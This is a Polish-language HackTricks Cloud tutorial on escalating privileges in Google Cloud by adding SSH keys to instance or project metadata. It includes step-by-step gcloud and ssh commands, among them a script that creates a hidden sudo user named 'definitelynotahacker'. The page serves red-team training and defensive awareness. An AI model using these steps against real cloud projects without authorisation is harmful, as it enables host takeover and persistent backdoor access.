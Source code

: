 # GCP - Dodaj niestandardowe metadane SSH

## GCP - Dodaj niestandardowe metadane SSH

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

### Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczących zagrożeń bezpieczeństwa, jeśli atakujący zdobędzie niezbędne uprawnienia**.

#### **Włączenie kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Krytycznym elementem tego jest [demon konta](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego, jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` **istniejącego użytkownika lub potencjalnie stworzy nowego użytkownika z uprawnieniami `sudo`**, w zależności od formatu klucza. A atakujący będzie mógł przejąć kontrolę nad hostem.

#### **Dodaj klucz SSH do istniejącego użytkownika z uprawnieniami**

1. **Zbadaj istniejące klucze SSH na instancji:**
*   Wykonaj polecenie, aby opisać instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednia sekcja w wynikach będzie pod `metadata`, a konkretnie kluczem `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielona dwukropkiem.
2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
* Zapisz szczegóły nazw użytkowników i ich odpowiadających kluczy SSH w pliku tekstowym o nazwie `meta.txt`. To jest istotne dla zachowania istniejących kluczy podczas dodawania nowych.
3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
*   Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada docelowej nazwie użytkownika.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.
4. **Zaktualizuj metadane klucza SSH instancji:**
*   Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**
*   Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Utwórz nowego użytkownika z uprawnieniami i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, któremu nadane zostaną uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie zasięgu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. To podejście umożliwia dostęp SSH do każdej instancji w projekcie, która nie zablokowała wyraźnie kluczy SSH na poziomie projektu. Oto podsumowany przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**
*   Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z `meta.txt` do metadanych projektu. Ta akcja zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH do instancji za pomocą kluczy na poziomie projektu:**
* Z kluczami SSH na poziomie projektu możesz SSH do dowolnej instancji w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, przyznając dostęp.
* Bezpośrednią metodą na SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCE]`. To polecenie używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu, aby spróbować uzyskać dostęp.

## Odniesienia

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
